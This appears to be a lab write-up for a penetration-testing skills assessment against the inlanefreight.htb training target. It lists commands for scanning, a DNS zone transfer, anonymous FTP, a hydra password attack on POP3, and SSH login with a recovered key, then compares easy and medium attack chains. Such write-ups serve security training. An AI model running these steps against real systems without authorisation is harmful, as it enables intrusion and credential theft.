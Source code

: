 
## 🔧 Complete Tool Chain - Medium Difficulty

### Full Command Reference
```bash
# Service Discovery
nmap -A target_ip

# DNS Zone Transfer
dig AXFR inlanefreight.htb @target_ip

# vHost Configuration
sudo sh -c 'echo "target_ip int-ftp.inlanefreight.htb" >> /etc/hosts'

# Internal Service Discovery
nmap -p- -T4 -A int-ftp.inlanefreight.htb

# Anonymous FTP Access
ftp int-ftp.inlanefreight.htb 30021

# POP3 Credential Attack
hydra -l username -P wordlist.txt pop3://target_ip

# POP3 Email Access
nc -nv target_ip 110

# SSH Key Processing
echo 'ssh_key_string' | sed 's/ /\n/g' > id_rsa
chmod 600 id_rsa

# SSH Authentication
ssh -i id_rsa username@target_ip
```

---

## 🔗 Skills Assessment Comparison

### Easy vs Medium Difficulty

#### **Easy Skills Assessment**
- **Attack Chain**: 7 phases (Service Discovery → Web Shell → Flag)
- **Services**: FTP, SMTP, HTTP, HTTPS, MySQL (5 services)
- **Key Techniques**: User enumeration, credential attacks, directory traversal, file upload
- **Complexity**: Medium - Multiple exploitation paths available

#### **Medium Skills Assessment**
- **Attack Chain**: 10 phases (DNS → vHost → SSH Key → Flag)
- **Services**: DNS, FTP, POP3, SSH (4 services + vHost discovery)
- **Key Techniques**: Zone transfers, internal service discovery, email intelligence, SSH keys
- **Complexity**: High - Linear attack chain with each phase dependent on previous
